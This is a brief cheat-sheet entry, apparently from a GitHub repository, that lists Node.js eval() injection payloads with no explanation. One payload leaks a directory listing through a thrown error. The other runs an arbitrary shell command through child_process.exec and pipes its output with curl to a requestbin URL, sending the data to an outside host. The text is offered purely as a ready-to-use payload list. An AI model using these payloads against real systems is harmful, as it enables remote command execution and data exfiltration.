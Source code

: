 # Nodejs

## eval()

payloads:

	(()=>{throw `${JSON.stringify(fs.readdirSync("."))}`})()

	require("child_process").exec("{cmd} | curl https://requestbin.net/xxxxxx -T -");